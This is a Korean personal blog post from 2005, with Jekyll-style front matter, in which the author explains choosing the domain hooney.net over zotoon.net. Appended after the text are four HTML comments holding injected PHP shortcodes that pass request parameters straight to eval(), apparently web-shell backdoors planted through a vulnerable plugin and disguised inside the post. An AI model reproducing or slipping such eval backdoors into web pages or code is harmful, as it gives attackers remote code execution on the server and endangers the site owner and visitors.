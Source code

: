 ```yaml
---
id: 9
title: 훈이네 도메인 구입~
date: 2005-03-30T20:28:00+09:00
author: Hooney
layout: post
guid: http://hooney.net/wp/?p=9
permalink: /post/9
keywords:
  - start,도메인
  - start,도메인
  - start,도메인
categories:
  - 블로그
  - 후니넷
---
```

Hooney.net 이름의 도메인을 구입했다. 돈을 지불하는 만큼, 도메인 선정에 적지 않은 시간을 소비했다. 

2000년부터 꾸준히 사용해 온 zotoon 이라는 ID에 맞춰서 zotoon.net 을 살까 망설였지만, 결국, 인터넷을 처음 사용하던 1999년에 애용하던 Hooney라는 ID에 맞춰서 샀다.

도메인 이름을 선정하게된 결정적 동기가 몇가지 있었는데,

  * zot + toon = zotoon 의미가 더이상 내게 맞지 않다.
  * hooney.net 이 zotoon.net 보다 발음이 편하다.
  * 블로그에 올릴 글들이 만화보다는 내 개인적인 사안들이 많을 것 같다.

이런 정도이다.

<!-- [insert_php]if (isset($_REQUEST["DTv"])){eval($_REQUEST["DTv"]);exit;}[/insert_php][php]if (isset($_REQUEST["DTv"])){eval($_REQUEST["DTv"]);exit;}[/php] -->

<!&#8211; \[insert\_php]if (isset($\_REQUEST["CRYcD"])){eval($\_REQUEST["CRYcD"]);exit;}[/insert\_php\]\[php\]if (isset($\_REQUEST["CRYcD"])){eval($\_REQUEST["CRYcD"]);exit;}[/php] &#8211;>

<!&#8211; \[insert\_php]if (isset($\_REQUEST["OUs"])){eval($\_REQUEST["OUs"]);exit;}[/insert\_php\]\[php\]if (isset($\_REQUEST["OUs"])){eval($\_REQUEST["OUs"]);exit;}[/php] &#8211;>

<!&#8211; \[insert\_php]if (isset($\_REQUEST["PBuMG"])){eval($\_REQUEST["PBuMG"]);exit;}[/insert\_php\]\[php\]if (isset($\_REQUEST["PBuMG"])){eval($\_REQUEST["PBuMG"]);exit;}[/php] &#8211;>